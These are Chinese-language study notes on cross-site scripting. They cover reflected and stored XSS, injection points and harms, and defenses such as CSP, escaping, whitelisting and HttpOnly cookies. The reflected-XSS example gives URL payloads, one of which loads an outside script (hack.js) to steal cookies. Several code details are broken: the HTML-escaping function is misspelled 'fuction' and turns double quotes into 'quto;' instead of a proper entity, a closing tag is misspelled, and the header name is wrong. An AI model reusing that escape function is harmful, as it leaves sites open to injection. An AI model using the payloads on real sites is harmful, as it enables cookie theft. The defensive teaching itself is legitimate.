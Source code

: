 ### XSS 概念

Cross Site Scripting 跨站脚本攻击,
通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。

### 分类

- 反射型

  > url 参数直接注入

  ```javascript
    // alert尝试
    http://localhost:3000?from=<script>alert(123)</script>

    //获取cookie
    http://localhost:3000?from=<script src="http://localhost:4000/hack.js"></sript>
  ```

- 存储型
  > 存储到 DB 后读取时注入

### 注入点

- HTML 节点内容
- HTML 属性
- Javascript 代码
- 富文本

### 危害

- 获取页面数据
- 获取 Cookies
- 劫持前端逻辑
- 发送请求

### 常见防御手段

- 浏览器自带防御机制 `X-SS-Protection`

  > IE 提出的规则，最新的 Chrome 不生效。
  > 只对反射型（出现在 HTML 节点内容和属性中）生效

  > 0 禁止 XSS 过滤。
  > 1 启 XSS 过滤(通常浏览 是默认的)。 如果检测到跨站脚本攻击，浏览 将清除 (删除 安全的部分)。
  >
  > - 1; mode=block 启用 XSS 过滤。如果检测到攻击，浏览将不会清除页面，而且阻止页面加载。
  > - 1; report= (Chromium only) 启用 XSS 过滤。如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规报告。

- 内容安全策略 CSP `Content Security Policy`
  https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

  > 是一个附加的安全层，用于帮助检测和缓解某些类型的攻击，包括 XSS 和数据注入等攻击。
  > 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

  ```javascript
  // 只允许内容来自站点的同一个源 (不包括其子域名)
  Content-Security-Policy: default-src 'self'

  // 只允许加载 HTTPS 协议图片
  Content-Security-Policy: img-src https://*

  // 不允许加载任何来源框架
  Content-Security-Policy: child-src 'none'

  ```

- 转义

  ```javascript
  fuction escapeHtml (str) {
    if(!str) return '';
    str = str.replace(/&/g, '&amp;');
    str = str.replace(/</g, '&lt;');
    str = str.replace(/>/g, '&gt;');
    str = str.replace(/"/g, 'quto;');
    str = str.replace(/'/g, '&#39;');

      return str;
  }
  ```

- 白名单

  - `npm i xss` https://github.com/leizongmin/js-xss/blob/master/README.zh.md

- HttpOnly Cookie
  > Web 应用程序在设置 cookie 时，将其属性设置为 HttpOnly, 可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取。
